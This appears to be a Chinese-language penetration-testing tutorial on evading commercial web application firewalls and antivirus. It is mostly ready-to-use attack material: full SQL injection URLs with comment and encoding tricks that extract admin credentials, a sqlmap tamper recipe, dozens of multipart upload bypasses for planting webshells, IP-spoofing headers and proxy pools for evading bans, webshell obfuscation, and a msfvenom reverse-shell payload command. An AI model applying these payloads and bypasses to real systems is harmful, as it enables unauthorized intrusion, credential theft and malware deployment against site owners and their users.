

网站的防护：
源码自带的防护代码（注入、上传、XSS等存在拦截）
软件WAF：
各种 web 漏洞，提权组件，owasptop10，访问速度，指纹拦截
安全狗、D盾、云锁、云盾、360等 waf
比如说你使用 sqlmap 然后他识别了你的指纹 org ，那么即使你的注入语句可以过 waf，也会被拦截
安全狗（你执行的注入语句被他检测出来之后会被拦截，但是不会封你 ip，当他认为你是cc攻击的时候才会封你 ip，那么什么是cc攻击？目录扫描速度过快，sqlmap跑注入速度过快都会认为你是cc攻击，一般1秒钟访问超过10次就会封你，一般每次封锁的时间为5分钟）
硬件WAF：
主要防御流量和一些web攻击
比如说天融信，一旦识别到你存在注入行为，他的防火墙就会直接封你 IP
阿里云的硬件 waf 不光会拦截 web 漏洞攻击，就连速度过快的 ddos 也会被拦截，一封就是1h
云WAF
- 一定要注意软件的指纹信息清理或者修改
- 封锁 IP有两种方式，一种是通过 http 请求，还有一种是通过 TCP 获取 ip 来封锁的（硬件 waf 常见）
- 如果是通过 http 请求头来获取 IP 封锁的，那我们就可以通过插件
fakeip修改client-ip或者x-forward-for等来绕过 - 用代理（换IP来访问），这个时候就引入了代理池
- 如果是通过 http 请求头来获取 IP 封锁的，那我们就可以通过插件
waf 拦截的两个方向：
- 基于 ip 封锁（cc 攻击、ddos 等态势感知）
- 基于 web 应用攻击（web 漏洞攻击拦截，指纹）
通用型防护代码：注入、上传、XSS等地方，针对注入：
- 大小写替换
- 变换提交方式（get、post、cookie）
- 编码绕过（url 编码，基于语句重叠，添加注释符号等等）
WAF 防护原理讲解
d盾拦截注入、上传、webshell、菜刀等等拦截的很厉害
下面这个我们在执行注入的时候被拦截了，然后看这个大E，这个就是安全狗
宝塔的 waf：ngx_lua_waf ，这个 waf 的拦截页面和安全狗很相似，但是没有这个大e
目录扫描绕过waf
目录扫描被封锁的原因：1. 指纹 2. 速度，如果速度过快还会被封锁 IP
那么我们先来解决第一个问题，也就是指纹的问题，我们可以尝试更换指纹，比如在Dirbuster目录扫描工具里面，我们可以通过修改User Agent头来修改指纹，这样就可以绕过一些 waf
然后就是第二个速度的问题，因为速度过快会被防火墙封锁 ip，所以我们可以尝试减慢扫描的速度，但这样的话就比较难受了，因为目录扫描就是需要速度，所以我们可以尝试使用代理池来绕过，搞一个代理池，假如说里面有十万个代理 IP，验证看看那些 IP 可以访问目标，然后使用这些验证后的挨个访问目标，如下：
刚刚测试了一下那个 proxypool 的免费代理池工具，真就狗屎，用不了一点，一个 ip 都用不了，不如 glider
当然有一些是通过识别 http 请求来识别 IP，我们就可以尝试通过修改client-ip等参数来进行绕过
禁用命令执行函数
如果我们发现目标会禁用我们使用命令执行函数来执行命令的话，可以编写一个 C 程序，然后程序里面写上要执行的命令，比如我们现在编写一个 hack.c文件，文件内容如下：
1 |
|
然后我们就可以对这个文件进行编译：
1 | gcc -c -fPIC hack.c -o hack.o |
之后将得到的动态库文件上传到 webshell 上，然后写一段简单的 php 代码，用来调用这个库文件：
1 |
|
在浏览器中打开就可以执行它，然后再去检查新建的文件是否还存在，找不到文件则表示系统成功执行了删除命令，也就意味着绕过成功，测试中注意修改为实际路径。
访问受限绕过
就比如我们访问到了一个网站的后台/admin，但是页面回显为：403、501、500、401（未授权）等等，这种的话，我们第一步需要去探测它是通过 tcp ip的限制还是通过 http 来限制的，如果是http，那我们直接上插件，然后修改下面的这些参数：
1 | X-Forwarded-For:134.27.38.209 |
我们可以将这些参数后的 IP 修改为目标管理员的 ip 来绕过一些限制，比如后台限制 IP 的时候就可以这样去绕过
-
实例突破后台 ip 限制：
就比如我们使用 XSS 打过来之后，使用插件修改 ip 为目标管理员 ip（前提是目标通过 http 请求来限制 IP）
如果目标的 IP 是外网的某一个段的（比如某一个地区：浙江），并且使用的是 tcp 来验证，这个时候插件就不管用了，就得使用代理池，我们可以在一些代理网站里面看看有没有一个段的 IP 来进行突破
还有访问 3389 端口，目标只允许某一个特定的 IP 访问，也就是对 IP 进行了封锁（401、403、501这些都是对 IP 进行了封锁），这个时候我们就可以通过端口转发来解决突破，比如可以使用lcx将端口转发到我们的 vps 上面，然后直接连接 vps 的端口即可，当然也可以使用 msf，在建立连接之后，使用 portfwd add 来实现端口转发
手工注入绕过 waf
我们先搭建一个有着注入以及 waf 的网站，然后先尝试注入and 1=1，可以看到直接被拦截了，并且是安全狗
然后我们介绍几种绕过的方法：
- 大小写变种
- 使用SQL注释
- 使用URL编码
- 使用空字节
- 使用嵌套过滤剥离
- 使用非标准入口点
- 避开自定义过滤器
下面是一些数据库以及相关的注释符和空白字符：
| 数据库系统 | 注释符 | 空白字符 |
|---|---|---|
| MySQL | - # （单行注释）- -- （注意后面需跟随一个空格或其他字符，单行注释）- /* ... */（多行注释） |
%09（水平制表符）%0A（换行符）%0B（垂直制表符）%0C（换页符）%0D（回车符）%20（空格） |
| Oracle | - --（单行注释，后需跟空格或其他字符）- /* ... */（多行注释） |
%00（NULL字符）%09（水平制表符）%0A（换行符）%0B（垂直制表符）%0C（换页符）%0D（回车符）%20（空格） |
| MSSQL | - --（单行注释，用法与上述相同）- /* ... */（多行注释） |
%00至%20（包括NULL字符在内的所有ASCII空白字符） |
然后这里面比较有用的一个方法就是注释：
-
URL 参数污染
-
可以用注释和空字符和内联注释来进行污染
这里要注意的是这些注释必须是被目标系统支持的，然后就是污染，比如说我们使用
%0a来进行污染，我们可以使用%%%%%%%%%%0a这种来代替空格，可以正常运行，并且可以过宝塔、WTS上面的 这些空白字符都可以用来代替空格 进行绕过，当然也可以使用
+来代替，这个能过 360Mysql 用的比较多的就是：
--、#、%23、/* */、/*!50001 */1
2
3内联注入：/*!select version()*/
/*!select*/ version(); 这里面的 select 是可以起作用的，因为加入了! 表示非注释
/*!10000select*/ version(); 这条语句也是可以执行的，数字最好是 5 位的，就比如下面这个就是用 44444 过掉的，这个网站用的 waf 是安全狗
然后就是上面这个，我们解释一下：在
union后面加上一个%23也就是注释符，将后面全部注释之后页面回显了网站的CMS，但是下面没有内容，因为是单行注释，所以我们再后面加上一个换行%0a，这么一来就可以正常回显了，那么问题来了，为什么不在数字这一块发力，因为给每一个数字包裹很费时然后就是不管如何处理都会被拦截，所以才将目光转向了union和select中间，emmm，反正就是多测试几个位置上面这里测试后可以得出这个 waf 主要拦截的就是
union select，所以我注释换行就绕过了然后就是爆破数据库：
我们可以在回显位写上
database，但是被拦截了，那就在后面加上一个%23%0a，先单行注释，然后换行之后就是爆破数据表：
这里就很简单了，只是对表名进行了十六进制编码，然后列名也是一样，如下：
最后直接爆破出账密：
上面使用的 waf 是安全狗，然后我们换成 D 盾看看怎么个事
可以看到绕过了，绕过的方法也很简单，在
/**/里面随便加上一些字符，然后加上一个<，然后将他进行URLencode，编码之后为：%26lt%3B最后用这个整体来代替空格使用 -
使用长度来进行污染，可以使用垃圾字符来增加提交内容的长度，就比如说我们再进行注入的时候，可以加上一些不会影响结果的参数，然后多写几个，类似于：
?id=1&id=1&id=1&id=1&id=1&id=1&id=1&id=1，这里要注意的是 waf 拦截的长度是有一定的限制的，太长的话可能会导致内存溢出长度污染一般是用在 post 提交或者上传的时候
然后我们总结一下手工注入过 waf 的一些方法：
-
注释，内联注释，空白字符，脏数据，当行注释，换行符等等
在 mysql 中：
/*asdasd*//*!union*/：这个因为加上了！所以里面的union是可以执行的/*!44444and*/：这里面是加入了数字，用来绕过一些过滤，但是里面的and是可以执行的，并且因为整体是一个注释符，所以连接下一个的时候中间不需要加任何空白字符%23：这个其实就是#，因为是单行注释，所以可以配合%0a换行符来使用--和--+
然后是 access+asp 里面，使用空白字符替换空格的方法如下：
- 可以使用
%0a（换行）、%0d（回车）、%09（Tab） - 还可以使用
%%%%%%%%%0a这种重复的%，通过不断加长来超过 waf 的拦截长度，这种可以绕过 wts-waf、宝塔自带的 asp 的 access 拦截的 waf，但是要注意的是也不能太长，太长服务器可能就不会接受了，所以这种方法一般是用在 post 传参里面的，因为 post 传参可以接受的长度远远大于 get 传参 - 使用
+替换，同时可以加上一定的大小写绕过，比如说：+anD+1=1这种方法可以过掉 360
-
变换提交方式（get、post、cookie）
但是这个也要注意一点，那就是服务器是否允许你通过其他传参方式提交
然后就是在
access+asp的站点，安全狗会把 post 提交的语句中间的空格替换为空，比如说：and 1=1会被变为and1=1这个时候该如何绕过：可以使用%0a也就是换行符或者是+来代替空格 -
进行编码（一般是URLencode）或者是大小写绕过，但是这里要注意：因为我们使用空白字符绕过的时候，用的就是URL编码之后的，所以我们再次编码之后服务器可能就无法解析了，因为大部分服务器只进行一次解码
所以在存在空白字符的时候，尽量不要使用 URLencode
说了这么多绕过的方法，但其实最重要的还是灵活的组合应用，比如说我们使用
%0a来代替空格，但是可能无法绕过，那就试着组合一下，比如说将 get 请求转换为 post 请求，然后使用%%%%%%0a来代替空格，之后再加入大小写，这样说不定就可以绕过一些 waf，所以打组合拳很重要 -
但是这个时候问题又来了，那就是使用手工注入的话，效率太低了，所以还是得用工具，这里就用 sqlmap来举例，就比如我们刚刚测试的安全狗，我们刚刚是已经成功手工绕过了，方法：/*!44444union*/ 将我们的语句加入到内联注释里面来进行绕过，那么这个时候，我们就可以将这个经验写成脚本，当然不用我们自己重新手搓一个脚本，我们只需要将他自带的脚本修改一下即可，当然现在已经有这个脚本了，但是我们需要培养这种思想：
1 | # modsecurityzeroversioned.py |
可以看到这个脚本的意思就是将 1 AND 2>1-- 经过脚本转换为：1 /*!00000AND 2>1*/--
然后我们找一个比较老一点的脚本来看一看怎么转：
可以看到这个脚本就是简单加了一个内联，里面没有数字，那我们就可以全局替换，将/*!转换为/*!44444 ，然后我们将这个保存为一个新的脚本：safi.py ，然后我们使用上面这个脚本跑一下目标脚本，这里是我们本地搭建的站点：
1 | python3 sqlmap.py -u "http://192.168.0.200:8006/showproducts.php?id=13" --flush-session --tamper=safi.py # --flush-session：用来清缓存的 |
跑出注入类型之后就可以直接使用--dbs参数来爆破数据库了，可以看到爆破成功了：
然后这里我们又可以引进一个新的用来防止IP封锁的方法，那就是修改sqlmap工具里面的options.py文件，在这个文件里面将我们的ua头修改为百度的ua头，因为百度是在安全狗的白名单里面的，这样我们可以防止自己的 ip 被封锁
过D盾+安全狗的注入语句
主要方法就是：/*SDJKF%26lt%3BSFDS*/ 代替空格过D盾，语句加入到内联注释过安全狗
数据库名：
1 | http://192.168.0.200:8006/showproducts.php?id=-13/*SDJKF%26lt%3BSFDS*//*!44440union*//*SDJKF%26lt%3BSFDS*//*%23*/distinct%0a/*!44440%0aselect*//*SDJKF%26lt%3BSFDS*/1,database%23(%0a),3,4,5,6,7,8,9,10 |
1 | # 浅浅修改一下，反正思路就这样，多测试一下： |
列表名：
1 | http://192.168.0.200:8006/showproducts.php?id=-13/*SDJKF%26lt%3BSFDS*//*!44440union*//*SDJKF%26lt%3BSFDS*//*%23*/distinct%0a/*!44440%0aselect*//*SDJKF%26lt%3BSFDS*/1,group_concat(table_name),3,4,5,6,7,8,9,10/*SDJKF%26lt%3BSFDS*/from/*SDJKF%26lt%3BSFDS*/information_schema.tables/*SDJKF%26lt%3BSFDS*/where/*SDJKF%26lt%3BSFDS*/table_schema=0x7879636D73 |
列列名：
1 | http://192.168.0.200:8006/showproducts.php?id=-13/*SDJKF%26lt%3BSFDS*//*!44440union*//*SDJKF%26lt%3BSFDS*//*%23*/distinct%0a/*!44440%0aselect*//*SDJKF%26lt%3BSFDS*/1,group_concat(column_name),3,4,5,6,7,8,9,10/*SDJKF%26lt%3BSFDS*/from/*SDJKF%26lt%3BSFDS*/information_schema.columns/*SDJKF%26lt%3BSFDS*/where/*SDJKF%26lt%3BSFDS*/table_name=0x6D616E6167655F75736572 |
列数据：
1 | http://192.168.0.200:8006/showproducts.php?id=-13/*SDJKF%26lt%3BSFDS*//*!44440union*//*SDJKF%26lt%3BSFDS*//*%23*/distinct%0a/*!44440%0aselect*//*SDJKF%26lt%3BSFDS*/1,group_concat(m_name,0x5c,m_pwd),3,4,5,6,7,8,9,10/*SDJKF%26lt%3BSFDS*/from/*SDJKF%26lt%3BSFDS*/manage_user |
分析一下上面的语句，可以得到绕过D盾以及安全狗总体思路：注释&内联注释
然后这里做一个简单的总结：
如果服务器存在多个WAF（软件 waf），比如：D盾、安全狗、云锁、云盾、360、wts-waf 等等，首先我们需要考虑每个 waf 的绕过条件，编写脚本的时候需要注意 waf 拦截的优先级，以此来调用 bypass 脚本，然后要注意的是在多个waf tamper 联合使用的时候，要判断脚本的语句是否有冲突，如果有的话我们需要重新编写一个脚本
这里再推荐一个切换代理的工具Auto_Tor_IP_changer-master，可以过掉硬件 waf 封锁 ip：
这个使用的是本地的 9050 端口，我们在使用sqlmap扫描的时候，可以使用 --tor --proxy-type=SOCKS5 来指定，这里需要安装两个软件：sudo apt-get install tor provixy
菜刀拦截
首先我们要使用 webshell 进行连接的话，首先得把 webshell 传到目标服务器，但是在对面有软件 waf 的情况下，这些木马会被检测出来，并且会被杀掉，所以我们要先对一句话进行免杀，比如通过编码、加密、函数、可变变量、类等等来达到免杀的目的，但是很多 waf 都会拦截菜刀，比如说：360、安全狗、云锁、阿里云等等，也就是说你哪怕把一句话传上去了，使用菜刀链接的时候还是会被拦截，所以我们就需要使用特定版本的菜刀，或者对菜刀的配置文件进行修改：
然后这里再讲一个免杀的技巧：
-
首先需要将木马写入到一个 txt 文件里面（这里以 php 大马为例），然后将开头以及结尾的
<?php以及?>去掉，然后我们再写一个1.php，用来引用这个写入的 txt 文件，使用file_get_contents函数引用这个上传的 txt 木马，当然，也可以搞一台VPS，然后将这个 txt 文件上传到我们的VPS上面，之后使用 php 文件引用 -
但是很明显，这样上传之后的文件是无法运行的，所以我们需要对文件进行修改，先修改一下
1.txt里面只有一个 eval 运行然后我们需要修改
2.php文件，上面那些define都是从1.txt原本的木马文件上面复制过来的成功运行，然后我们使用安全狗扫描，可以看到
2.php并没有被检测出来，但是D盾可以扫描出来：
改包过 waf
下面这个是可以过安全狗的：
在filename后面加上换行，比如这里就是在第一个双引号后面加的换行，也可以在双引号前换行，还可以点后换行加一个截断
也可以交换一下filename和name的位置，然后就是可以去掉from-data，或者使用长度截断，多加几个垃圾字符

也可以直接把content-type全部删除测试一下
还有就是修改一下-的数量
还有就是在filepath后面加上一个截断（%00，然后编码），可以看到a.asp上传成功
也可以尝试多写几个filename ，然后使用分号隔开
主要还是要脑洞大开，也可以吧双引号修改为单引号，去掉双引号，等等等
然后将上面的方法总结一下：
-
去掉引号
1
2
3Content-Disposition: form-data; name=file_x; filename="xx.php"
Content-Disposition: form-data; name=file_x; filename=xx.php
Content-Disposition: form-data; name="file_x"; filename=xx.php -
双引号变成单引号
1
Content-Disposition: form-data; name='file_x'; filename='xx.php'
单引号、双引号、不要引号，都能上传。
-
大小写
对这三个固定的字符串进行大小写转换：
Content-Dispositionnamefilename
例如：
name转换成Name，Content-Disposition转换成content-disposition -
空格
在
:，;和=添加1个或者多个空格，不过测试只有filename在=前面添加空格，上传失败。在
filename=后面添加空格 -
去掉或修改 Content-Disposition 值
有的 WAF 在解析的时候，认为 Content-Disposition 值一定是 form-data，造成绕过。
1
Content-Disposition: name='file_x'; filename='xx.php'
-
交换 name 和 filename 的顺序
规定Content-Disposition必须在最前面，所以只能交换name和filename的顺序。有的WAF可能会匹配name在前面，filename在后面，所以下面姿势会导致Bypass。
1
Content-Disposition: form-data; filename="xx.php"; name=file_x
-
多个 boundary
最后上传的文件是
test.php而非test.txt，但是取的文件名只取了第一个就会被Bypass。1
2
3-----------WebKitFormBoundaryj1oRYFW91eaj8Ex2------------
Content-Disposition: form-data; name="file_x"; filename="test.txt"
Content-Type: text/javascript -
多个 filename
最终上传成功的文件名是
test.php。但是由于解析文件名时，会解析到第一个。正则默认都会匹配到第一个。1
Content-Disposition: form-data; name="file_x"; filename="test.txt"; filename="test.php"
-
多个分号
文件解析时，可能解析不到文件名，导致绕过。
1
Content-Disposition: form-data; name="file_x";;; filename="test.php"
-
multipart / form-DATA
这种绕过应该很少，大多数都会忽略大小写。php 和 java 都支持。
1
Content-Type: multipart/form-DATA
-
Header 在 boundary 前添加任意字符
这个只能说，PHP支持。试了JAVA会报错。
1
Content-Type: multipart/form-data; bypassboundary=----WebKitFormBoundaryj1oRYFW91eaj8Ex2
-
filename 换行
PHP支持，Java不支持。
1
2Content-Disposition: form-data; name="file_x"; file
name="test.php"下面这种 PHP 也支持。
1
2fi
lename -
name 和 filename 添加任意字符串
PHP上传成功，Java上传失败。
1
Content-Disposition: name="file_x"; bypass waf upload; filename="test.php";
个人之前总结的30个上传绕过姿势：
- filename 在 content-type 下面
- .asp{80-90}
- NTFS ADS
- .asp…
- boundary不一致
- iis6 分号截断 asp.asp;asp.jpg
- apache 解析漏洞 php.php.ddd
- boundary 和 content-disposition 中间插入换行
- hello.php:a.jpg 然后 hello.<<<
- filename=php.php
- filename=“a.txt”;filename=“a.php”
- name=\n"file";filename=“a.php”
- content-disposition:\n
- .htaccess文件
- a.jpg\nphp
- 去掉 content-disposition 的 form-data 字段
- php<5.3 单双引号截断特性
- 删掉content-disposition: form-data:
- content-disposition\00:
- {char}+content-disposition
- head 头的 content-type: tab
- head 头的 content-type: multipart/form-DATA
- filename 后缀改为大写
- head 头的 Content-Type: multipart/form-data;\n
- .asp空格
- .asp0x00.jpg 截断
- 双 boundary
- file\nname=“php.php”
- head 头 content-type 空格:
- form-data 字段与 name 字段交换位置
免杀
之前我们了解过 MSF 的相关知识，首先我们要知道 MSF 能干什么：
- 提权
- 内网渗透
- 维持控制
然后我们要知道的是，在服务器上面会有很多杀软，比如说：360、火绒、nod32、卡巴斯基，我们一旦上传 payload，就会被杀软杀掉，所以我们要思考的就是如何过掉杀软，这个时候就要学习免杀
shellter免杀
使用 shellter 工具进行免杀，可以绕过很多杀软，但要是想让功能更强的话，可以使用收费版
免杀 msfpayload
首先肯定是使用 msfvenom 生成 python 木马：
1 | msfvenom -p windows/meterpreter/reverse_tcp LPORT=4444 LHOST=192.168.8.124 -i 11 -f py -o msf.py |
msfvenom：这是一个用于生成各种类型的有效载荷（payload）的工具，通常与 Metasploit 框架一起使用。-p windows/meterpreter/reverse_tcp：指定要生成的有效载荷类型。在这里，选择的是 Windows 平台的 Meterpreter 反向 TCP 连接。这意味着一旦目标机器运行了这个有效载荷，它将会尝试连接回攻击者的机器。LPORT=4444：指定反向连接时使用的本地端口号。在这个例子中，攻击者的机器将监听 4444 端口。LHOST=192.168.8.124：指定攻击者的主机 IP 地址，目标机器在执行有效载荷时会连接到这个地址。-i 11：指定生成的有效载荷的编码迭代次数。这里设置为 11 次，目的是增加有效载荷的复杂性，以绕过某些安全检测。-f py：指定输出格式为 Python 脚本。-o msf.py：指定输出文件的名称为msf.py，即生成的 Python 脚本将保存为这个文件名。
然后就是建立监听，使用multi/handler脚本，之后使用其他的一些脚本对我们刚刚生成的 python 脚本再次进行编码，或者是写入一些垃圾字符，以此来绕过一些 waf 的检测
venom 免杀 payload
https://github.com/r00t-3xp10it/venom/releases/tag/v1.0.17.7
shecodject 免杀
https://github.com/TaroballzChen/shecodject
这个其实就是自动化生成 python 脚本然后进行免杀
提取过waf
- 通过程序读密码
- 利用 waf 绕过神器
- 利用 exp 读 hash
- 将用户添加到远程桌面组，并且给目录降权
- sa sqlserver system
- 直接把 waf 服务或者进程给他干掉
- 利用第三方软件提权
补充
要是碰到杀软的话，我们其实可以尝试一些 ps 脚本，也就是 powershell 的一些脚本，也可以使用无文件攻击，msf+加载 powershell，当然也可以尝试一下 empire，这个虽然现在下载有点困难。。。但是之前了解过一点，感觉还是很靠谱的，尤其是打Windows 的时候，并且他的很多脚本啥的都是带有一定的免杀效果的，说不定就可以过掉杀软，还有就是 powersploit
除此之外，我们也可以找一些源码编译使用，或者直接找免杀的程序使用，比如说：掩日、shellter、shecodject 等等